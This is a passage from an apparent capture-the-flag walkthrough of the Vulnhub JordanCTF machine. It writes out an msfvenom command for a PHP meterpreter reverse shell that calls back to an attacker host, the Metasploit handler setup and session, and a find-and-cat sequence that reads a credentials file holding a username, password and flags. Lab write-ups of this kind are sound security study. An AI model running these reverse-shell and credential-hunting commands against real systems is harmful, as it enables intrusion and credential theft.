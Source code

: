 ```shell
try to find user technawi password to read the flag.txt file, you can find it in a hidden file ;)

The 3rd flag is : {7645110034526579012345670}

$ pwd
/var/www/html
```
the shell is not stable so I will try meterpreter shell 

```shell
root@kali:~# msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.2.7 LPORT=4444 > Desktop/CTF/Vulnhub/JordanCTF/met_shell.php
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1109 bytes
```

Setting up the Handler
```shell
msf > use exploit/multi/handler 
msf exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(multi/handler) > set LHOST eth0
LHOST => eth0
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.0.2.7:4444 
```
call this link http://10.0.2.24/uploaded_files/met_shell.php

```shell
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.0.2.7:4444 
[*] Sending stage (37775 bytes) to 10.0.2.24
[*] Meterpreter session 1 opened (10.0.2.7:4444 -> 10.0.2.24:33224) at 2019-01-13 05:02:57 -0500

meterpreter > 
```
so lets go back where we left it says the username and password are stored somewhere hidden so if we used **find** tool we can search for something like password.txt creds.txt and try some other regular expressions and you can use wild cards like ```*```

```shell
$ find / -name "cred*.txt" 2> /dev/null
/etc/mysql/conf.d/credentials.txt
```
**Side Note** i used /dev/null so I don't get a whole list for errors or permission denied 

so reading this file we have the following 
```shell
$ cat /etc/mysql/conf.d/credentials.txt
The 4th flag is : {7845658974123568974185412}

username : technawi
password : 3vilH@ksor
```
Lets SSH and this user 
